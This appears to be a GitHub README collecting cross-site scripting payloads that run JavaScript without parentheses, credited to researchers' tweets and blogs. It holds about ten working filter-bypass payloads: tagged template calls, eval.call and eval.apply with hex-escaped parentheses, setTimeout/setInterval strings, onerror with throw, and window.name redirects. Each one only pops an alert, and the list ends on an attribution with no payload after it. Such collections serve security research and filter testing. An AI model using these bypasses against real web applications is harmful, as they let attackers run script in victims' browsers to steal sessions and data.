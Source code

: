# XSS Without parentheses () 


### This repo contains XSS payloads that doesn't require parentheses, collected from tweets, blogs...
### All the POC's are alert box with number 23

---
    alert`23`
---
    window.name="javascript:alert(23)";
    location="xss.html";
xss.html

    location=name

---

[Cure53](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-2)


    eval.call`${'alert\x2823\x29'}`


---

[Renwa](https://twitter.com/RenwaX23)


    eval.apply`${[`alert\x2823\x29`]}`
    
---

[Bo0oM](https://twitter.com/i_bo0om/status/687652257609957376)


    setTimeout`alert\x2823\x29`
    setInterval`alert\x2823\x29`
    
---

[Garethheyes](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)

    onerror=alert;throw 23;

---

[Garethheyes](https://twitter.com/garethheyes/status/1560366908754501632?s=20&t=-p-EZTtcQqHBWZ_WKf6icA)

    window.name='javascript:alert\x2823\x29';
    Reflect.set.call`${location}${'href'}${name}`

---

[Garethheyes](https://twitter.com/garethheyes/status/1560348706137948162?s=20&t=-p-EZTtcQqHBWZ_WKf6icA)
